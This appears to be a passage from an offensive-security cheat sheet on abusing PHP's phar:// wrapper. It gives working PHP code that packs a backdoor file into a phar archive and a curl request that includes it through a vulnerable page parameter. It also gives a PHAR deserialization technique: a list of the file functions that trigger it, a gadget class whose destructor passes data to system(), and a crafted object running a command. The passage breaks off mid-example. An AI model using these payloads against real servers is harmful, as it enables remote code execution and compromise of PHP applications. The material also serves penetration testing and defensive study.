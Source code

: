 PHAR files work like ZIP files, when you can use the `phar://` to access files stored inside them.

1. Create a phar archive containing a backdoor file: `php --define phar.readonly=0 archive.php`

  ```php
  <?php
    $phar = new Phar('archive.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', '<?php phpinfo(); ?>');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    $phar->stopBuffering();
  ?>
  ```

2. Use the `phar://` wrapper: `curl http://127.0.0.1:8001/?page=phar:///var/www/html/archive.phar/test.txt`


### PHAR deserialization

:warning: This technique doesn't work on PHP 8+, the deserialization has been removed. 

If a file operation is now performed on our existing phar file via the `phar://` wrapper, then its serialized meta data is unserialized. This vulnerability occurs in the following functions, including file_exists: `include`, `file_get_contents`, `file_put_contents`, `copy`, `file_exists`, `is_executable`, `is_file`, `is_dir`, `is_link`, `is_writable`, `fileperms`, `fileinode`, `filesize`, `fileowner`, `filegroup`, `fileatime`, `filemtime`, `filectime`, `filetype`, `getimagesize`, `exif_read_data`, `stat`, `lstat`, `touch`, `md5_file`, etc.

This exploit requires at least one class with magic methods such as `__destruct()` or `__wakeup()`.
Let's take this `AnyClass` class as example, which execute the parameter data.

```php
class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }
    
    function __destruct() {
        system($this->data);
    }
}

...
echo file_exists($_GET['page']);
```

We can craft a phar archive containing a serialized object in its meta-data.

```php
// create new Phar
$phar = new Phar('deser.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// add object of any class as meta data
class AnyClass {
    public $data = null;
    public function __construct($data) {
        $this->data = $data;
    }
    
    function __destruct() {
        system($this->data);
    }
}
$object = new AnyClass('whoami');
```